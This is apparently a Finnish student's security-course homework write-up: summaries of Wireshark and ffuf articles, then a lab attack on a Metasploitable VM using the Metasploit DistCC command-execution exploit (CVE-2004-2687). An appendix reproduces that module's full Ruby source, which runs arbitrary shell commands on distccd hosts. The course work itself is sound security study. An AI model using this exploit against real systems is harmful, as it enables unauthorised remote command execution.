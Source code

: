 ![image](https://github.com/user-attachments/assets/901f102d-c943-4b50-bebe-960de0ab03cb)![image](https://github.com/user-attachments/assets/58b99e93-d83e-4f96-babf-c7d552930f6c)# h3 Nuuskija

## Johdanto

Kotitehtävässä h3 oli tarkoituksena syventyä kotitehtävästä h2 tuttuihin Metasploitable-hyökkäyspaketteihin, viikon 45 oppitunnilla käytyihin hyökkäysten lähdekoodiin, verkkosniffaamiseen ja HackTheBoxiin sekä uutena asiana Fuzzaamiseen.

## Ennakkomateriaali (Kohta X)

Viikon aiheeseen liittyen tuli tiivistää Popovin artikkeli Wiresharkista ja Karvisen artikkeli Fuzzista.

### Wireshark Tricks

- Wiresharkin tuloksistaa voi `Analyze` ja `Statistics` -osioista löytää tärkeitä tietoja esimerkiksi pakettien tarkasta sisällöstä, käytetyistä protokollista ja DNS-kyselyistä

- Wiresharkin haku- ja suodatustyökaluja voi käyttää esimerkiksi HTTP-headerin tai hostin nimen selvittämiseen.

- Wireshark voi jopa dekryptoida HTTPS-liikennettä käyttämällä selaimen TLS sessio-avaimia tai palvelimen yksityistä avainta.

### Fuzz URL's with ffuf

- Fuzzaamisessa testataan verkkopalvelimen vasteita syöttämällä sille erinäisiä syötteitä (useimmiten satunnaisesti).

- Fuzzaamalla voidaan löytää verkkopalvelimesta piilotettuja hakemistoja, joihin ei ole muuten pääsyä.

- Ffuf on työkalu, joka suorittaa fuzzaamisen nopeasti ja automaattisesti.

### Lähteet

Popov 2024: Hacktricks: Wireshark tricks. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills. Luettu 10.11.2024

Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf. Luettavissa: https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/. Luettu 10.11.2024

## Hyökkäys ja sorsastus (Kohdat A-B)

Aloitin tehtävän tarkistamalla tuttuun tapaan, että koneet saavat yhteyden VAIN toisiinsa HostOnly-verkossa, eivätkä muualle.

![image](https://github.com/user-attachments/assets/9512273c-df9c-4c83-9e9d-06bb99d4b51f)
![image](https://github.com/user-attachments/assets/f6dc88d7-ccce-4897-864f-d8833e2fe618)

_Yhteyskokeilu_

Tämän jälkeen avasin msf-konsolin ja valmistelin exploitin. Otin tehtävää varten itselleni uuden exploitin, eli `DistCC Daemon Command Execution` -hyökkäyksen. 

![image](https://github.com/user-attachments/assets/f0ab69b9-b989-4203-8982-b95fb128f457)

_Hyökkäyksen valinta ja konfigurointi_

Tässä vaiheessa hyödyllinen on `show options`-komento, joka näyttää ne parametrit, joita voin konfiguroida. Tässä tapauksessa olennaista on konfiguroida hyökkäyskohde `set RHOST` ja hyökkääjä `set LHOST`.

Valitettavasti tässä tapauksessa exploit ei saanut yhteyttä kohteeseen. Ohjelman antamasta palautteesta pystyin arvioida, että kyse on todennäköisesti virheellisestä payloadista. Metasploit antoi automaattisesti payloadin `cmd/unix/reverse_bash`, mutta tämä ei ole välttämättä oikea.

![image](https://github.com/user-attachments/assets/ed899a8b-b887-4df3-9aca-d779c8a5ebed)

Uusi payload, onnistunut hyökkäys



### Lähteet

Metasploit: Metasploitable 2 Exploitability Guide. Luettavissa: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/.
Metasploit: DistCC Daemon Command Execution. Luettavissa: https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec/.

### Liitteet

_Liite 1: DistCC lähdekoodi_

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.

      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {

              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2002-02-01'
      ))

      register_options(
        [
          Opt::RPORT(3632)
        ])
  end

  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out && out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    connect

    distcmd = dist_cmd("sh", "-c", payload.encoded);
    sock.put(distcmd)

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output

    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

    handler
    disconnect
  end

  def read_output

    res = sock.get_once(24, 5)

    if !(res and res.length == 24)
      print_status("The remote distccd did not reply to our request")
      disconnect
      return
    end

    # Check STDERR
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [nil, nil] if not len
    if (len > 0)
      err = sock.get_once(len, 5)
    end

    # Check STDOUT
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [err, nil] if not len
    if (len > 0)
      out = sock.get_once(len, 5)
    end
    return [err, out]

  end


  # Generate a distccd command
  def dist_cmd(*args)

    # Convince distccd that this is a compile
    args.concat(%w{# -c main.c -o main.o})

    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + sprintf("ARGC%.8x", args.length)

    # Set the command arguments
    args.each do |arg|
      res << sprintf("ARGV%.8x%s", arg.length, arg)
    end

    return res
  end
end
```


